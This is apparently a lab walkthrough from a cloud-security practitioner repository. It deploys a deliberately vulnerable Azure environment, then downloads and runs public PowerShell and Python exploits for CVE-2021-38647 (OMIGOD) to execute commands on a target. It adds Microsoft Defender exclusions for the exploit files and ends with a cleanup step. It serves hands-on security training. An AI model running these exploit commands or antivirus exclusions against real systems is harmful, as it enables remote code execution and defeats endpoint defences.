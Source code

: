 
### Prepare the environment
```
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/davidokeyode/azure-cloudsec-practitioner/main/OMIGOD/OmiGodDeploy.ps1" -OutFile "OmiGodDeploy.ps1"

Unblock-File .\OmiGodDeploy.ps1

.\OmiGodDeploy.ps1
```


### Download and execute exploit for CVE-2021-38647 (PowerShell)
```
cd "$env:SystemDrive\PentestTools\Azure\Attack"

Invoke-WebRequest -Uri "https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/Invoke-CVE-2021-38647.ps1" -OutFile "Invoke-CVE-2021-38647.ps1"

Unblock-File .\Invoke-CVE-2021-38647.ps1

Add-MpPreference -ExclusionPath "$env:SystemDrive\PentestTools\Azure\Attack\Invoke-CVE-2021-38647.ps1"

Invoke-CVE-2021-38647 -TargetIP <IP address> -TargetPort 5986 -Command whoami

```

### Download and execute exploit for CVE-2021-38647 (Python - Option 1)
```
cd "$env:SystemDrive\PentestTools\Azure\Attack"

Invoke-WebRequest -Uri "https://raw.githubusercontent.com/AlteredSecurity/CVE-2021-38647/main/CVE-2021-38647.py" -OutFile "CVE-2021-38647.py"

Unblock-File .\CVE-2021-38647.py

Add-MpPreference -ExclusionPath "$env:SystemDrive\PentestTools\Azure\Attack\CVE-2021-38647.py"

python .\CVE-2021-38647.py -t <IP address> -p 5986 -c id
```


### Download and execute exploit for CVE-2021-38647 (Python - Option 2)
```
cd "$env:SystemDrive\PentestTools\Azure\Attack"

Invoke-WebRequest -Uri "https://raw.githubusercontent.com/horizon3ai/CVE-2021-38647/main/omigod.py" -OutFile "omigod.py"

Unblock-File .\omigod.py

Add-MpPreference -ExclusionPath "$env:SystemDrive\PentestTools\Azure\Attack\omigod.py"

python3.12.exe .\omigod.py -t <IP address> -c id

python3 omigod.py -t <IP address> -c id
```

### Cleanup
```
$group = "OMIGOD-RG"
az group delete --name $group --yes --no-wait
```

